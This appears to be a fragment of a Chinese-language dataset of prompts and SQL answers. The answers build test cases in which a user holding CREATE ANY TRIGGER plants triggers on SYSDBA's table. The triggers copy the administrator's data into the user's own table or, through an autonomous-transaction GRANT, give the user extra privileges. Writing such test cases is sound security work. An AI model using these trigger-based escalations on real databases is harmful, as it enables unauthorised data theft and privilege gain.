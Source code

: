 --创建触发器
CREATE OR REPLACE TRIGGER COPY_TABLE_DATA
AFTER UPDATE ON SYSDBA.T1
FOR EACH ROW
BEGIN 
 INSERT INTO USER1.T2 SELECT * FROM SYSDBA.T1;
END;

--SYSDBA用户
--更新表，以触发触发器
UPDATE SYSDBA.T1 SET NAME = 'SYSDBA1' WHERE ID = 1;

--USER1用户
--查询该自己的表
SELECT * FROM USER1.T2;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在删除sysdba用户表时，将数据复制到自己的表中。sysdba用户删除数据触发触发器，执行授权命令。,"‘--SYSDBA用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));

--插入数据
INSERT INTO SYSDBA.T1 VALUES(1, 'SYSDBA');
INSERT INTO SYSDBA.T1 VALUES(2, 'SYSDBA');

--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--USER1
--创建触发器
CREATE OR REPLACE TRIGGER COPY_TABLE_DATA
BEFORE DELETE ON SYSDBA.T1
FOR EACH ROW
BEGIN 
 INSERT INTO USER1.T2 SELECT * FROM SYSDBA.T1;
END;

--SYSDBA用户
--删除表，以触发触发器
DELETE FROM sysdba.t1 WHERE id = 1;

--USER1用户
--查询该自己的表
SELECT * FROM USER1.T2;"
创建一组测试用例，使用create any trigger权限实现间接提权,user1用户拥有create any trigger权限，通过给SYSDBA用户创建触发器，在插入sysdba用户表时，授权未有的权限。sysdba用户插入数据触发触发器，执行授权命令,"--SYSDB用户
--创建表
CREATE TABLE T1(ID INT, NAME VARCHAR(20));
--授予CREATE ANY TRIGGER权限
GRANT CREATE ANY TRIGGER TO USER1;

--USER1
--创建触发器
CREATE OR REPLACE TRIGGER GRANT_SELECT
BEFORE INSERT ON SYSDBA.T1
FOR EACH ROW
DECLARE PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN 
 EXECUTE IMMEDIATE 'GRANT SELECT ON T1 TO USER1';
END;
